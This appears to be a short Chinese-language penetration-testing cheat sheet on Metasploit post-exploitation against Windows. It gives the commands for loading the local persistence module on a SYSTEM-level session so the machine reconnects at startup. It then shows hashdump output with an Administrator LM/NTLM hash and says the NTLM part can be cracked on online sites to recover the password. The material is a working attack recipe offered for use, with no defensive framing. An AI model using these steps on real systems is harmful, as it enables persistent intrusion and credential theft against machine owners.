

## **Win MSF Windows启动自上线**
已知会话2为system/root
background
使用windows权限维持模块
```
use exploit/windows/local/persistence
show options
set session 2
run
```
^
## **Win MSF获取用户的hashdump**

获取密码哈希，msf中用hashdump命令
```
Administrator:500:ac804745ee68ebea1aa818381e4e281b:3008c87294511142799dca1191e69a0f:::
```


前一段是LM，后一段3008c后是密码NTLM的hash，一般利用后一段，可以用在线网站解密Admin123

